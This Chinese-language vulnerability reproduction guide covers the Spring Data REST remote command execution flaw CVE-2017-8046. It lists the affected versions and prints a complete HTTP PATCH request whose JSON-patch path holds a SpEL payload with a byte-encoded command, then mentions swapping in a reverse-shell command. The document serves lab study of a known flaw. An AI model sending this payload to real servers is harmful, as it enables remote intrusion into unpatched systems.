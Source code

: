 （CVE-2017-8046）Spring Data Rest 远程命令执行漏洞
==================================================

一、漏洞简介
------------

Spring Data REST是一个构建在Spring
Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST
API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

二、漏洞影响
------------

PivotalSpringDataREST2.5.12之前的版本，2.6.7之前的版本，3.0RC3之前的版本

SpringBoot2.0.0M4之前版本

SpringDataKay-RC3之前的版本

三、复现过程
------------

访问`http://www.0-sec.org:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

    PATCH /customers/1 HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json-patch+json
    Content-Length: 202

    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

![2.png](./resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId24.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

![1.png](./resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046
